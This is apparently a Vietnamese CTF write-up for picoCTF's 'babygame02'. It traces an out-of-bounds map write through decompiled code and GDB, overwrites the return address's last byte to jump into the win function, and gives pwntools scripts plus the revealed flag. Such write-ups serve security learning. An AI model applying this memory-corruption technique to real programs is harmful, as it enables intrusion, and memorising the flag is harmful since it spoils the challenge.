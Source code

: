 # Babygame02
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [esp+0h] [ebp-AA0h] BYREF
  char v5[2700]; // [esp+Bh] [ebp-A95h] BYREF
  char v6; // [esp+A97h] [ebp-9h]
  int *v7; // [esp+A98h] [ebp-8h]

  v7 = &argc;
  init_player(v4);
  init_map(v5, v4);
  print_map(v5);
  signal(2, (__sighandler_t)sigint_handler);
  do
  {
    do
    {
      v6 = getchar();
      move_player(v4, v6, (int)v5);
      print_map(v5);
    }
    while ( v4[0] != 29 );
  }
  while ( v4[1] != 89 );
  puts("You win!");
  return 0;
}
```
chall này game giống hệt chall `babygame01` tuy nhiên có một số điểm khác. Ta không có câu lệnh gọi tới win. Ý tưởng ban đầu là `ret2win`. Vì thế ta cần 1 bug có thể `overwrite` được địa chỉ nào đó về `win`. 

    *(_BYTE *)(v4[1] + v5 + 90 * *v4) = 46

Tớ nghĩ tới câu lệnh giúp ta exploit chall `babygame01` tuy là có thể `overwrite` thành win nhưng mà nó set 1 byte sau cùng của giá trị đấy thành `46`. Điều này k có ý nghĩa lắm. Mình để ý thấy địa chỉ ret của `move_player` với win chỉ khác nhau mỗi byte cuối =)) hê hê. 

```c
result = (_BYTE *)(v4[1] + v5 + 90 * *v4);
*result = player_tile;
```
Lệnh này giống lệnh trên tuy nhiên nó k set byte sau cùng (sau cùng theo little endian) thành 46, nó set thành `player_tile`, mà `player_tile` ta có thể thay đổi theo ý muốn bằng phím `'l'`

```c
if ( v6 == 'l' )
    player_tile = getchar();
```
Đặt break point ngay lệnh ret của `move_player` lúc này `retAddr` đang được lưu trong stack :

```java
---[0xffffc71c]---│+0x0000: 0x08049709  →  <main+149> add esp, 0x10      ← $esp
0xffffc720│+0x0004: 0xffffc738  →  0x00000004
0xffffc724│+0x0008: 0xffffffc6
0xffffc728│+0x000c: |---[0xffffc743]---|  →  "..................................................[...]"
0xffffc72c│+0x0010: 0x080496eb  →  <main+119> mov BYTE PTR [ebp-0x9], al
0xffffc730│+0x0014: 0xf7ffd020  →  0xf7ffd9d0  →  0x00000000
0xffffc734│+0x0018: 0x00000000
0xffffc738│+0x001c: 0x00000004
0xffffc73c│+0x0020: 0x00000004
0xffffc740│+0x0024: 0x2e000000
gef➤  p win
$1 = {<text variable, no debug info>} 0x804975d <win>
```
Ta có: địa chỉ chứa `retAddr` của `move_player` là `0xffffc71c`, địa chỉ của map `v5` là `0xffffc743` và địa chỉ của `win` là `0x804975d`

Vẫn là phép tính cũ : `(v4[1] + v5 + 90 *v4[0]) = 0xffffc71c` với `v5 = 0xffffc743` và `v4[1]` là chỉ số cột, `v4[0]` là chỉ số hàng `(v4[1]<89, v4[0]<29)`. Nếu cố định `v4[1]` rồi tìm `v4[0]` thì sẽ khá tốn công bởi vì phải chia cho `90` vì vậy ta nên cố định `v4[0]` rồi tìm `v4[1]`. 

Với `v4[0] = 0` thì `v4[1] = 0xffffc71c - 0xffffc743 = -39` (hàng 0 cột -39). Lúc chạy thử và debug thì vô tình ta đã set địa chỉ trong `eax` thành địa chỉ không hợp lệ dẫn đến crash và `eax` thì chứa toàn bộ map của ta

    $eax   : 0xffffc73f  →  "@.................................................[...]"
    ...
    $eax   : 0x40ffc73f

Do đó ta đành tìm cặp khác: với `v4[0] = 1 thì v4[1] = -129` điều này còn tệ hơn trường hợp trước. Ta cần `v4[1]` phải dương nếu không sẽ gặp lỗi tương tự.

Với `v4[0] = -1`, `v4[1] = 51` (hàng -1 cột 51) hoàn toàn hợp lệ. Test thì k gặp lỗi `SIGSEGV` nữa. Bây giờ địa chỉ của phép tính trên đã là nơi chứa `retAddr` của `move_player` rồi, giờ chỉ còn set byte cuối của `ret` thành `win` là hoàn thành. Do chỉ khác 1 byte sau nên chỉ cần set `player_tiles` thành `\x5d` là đủ

## Exploit
do phải gửi theo byte nên viết script vậy =))

```python
from pwn import *
exe = ELF('game', checksec=False)
p = process(exe.path)
p.sendlineafter(b'\n', b'l\x5d')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```
Do lúc đầu move player tới vị trí cần thiết thì chương trình lại k set player_tiles nên tớ set trước =))
Chạy trên Local ok rồi

```java
..........................................................................................
.........................................................................................X
flag.txt not found in current directory
[*] Got EOF while reading in interactive
```

```java
..........................................................................................
.........................................................................................X
[*] Got EOF while reading in interactive
$
```

Uhhhggg. Chưa hiểu lý do tại sao nó lại không in ra flag, test trên local thì chạy được. Sau khi thử nhảy đến các câu lệnh phía sau win thì cuối cùng cũng có flag :v

```java
gef➤  disas win
Dump of assembler code for function win:
   0x0804975d <+0>:     push   ebp
   0x0804975e <+1>:     mov    ebp,esp
   0x08049760 <+3>:     push   ebx
   0x08049761 <+4>:     sub    esp,0x44
   0x08049764 <+7>:     call   0x8049140 <__x86.get_pc_thunk.bx>
   0x08049769 <+12>:    add    ebx,0x2897
   0x0804976f <+18>:    nop
   0x08049770 <+19>:    nop
   0x08049771 <+20>:    nop
   0x08049772 <+21>:    nop
   0x08049773 <+22>:    nop
   0x08049774 <+23>:    nop
   0x08049775 <+24>:    nop
```
```python
from pwn import *
p = remote('saturn.picoctf.net',52427)
p.sendlineafter(b'\n', b'l\x61')
p.sendlineafter(b'\n', b'd'*47)
p.sendlineafter(b'\n', b'w'*5)
p.interactive()
```

```java
..........................................................................................
..........................................................................................
.........................................................................................X
picoCTF{gamer_jump1ng_4r0unD_7a26c512}[*] Got EOF while reading in interactive
$
```
`flag: picoCTF{gamer_jump1ng_4r0unD_7a26c512}`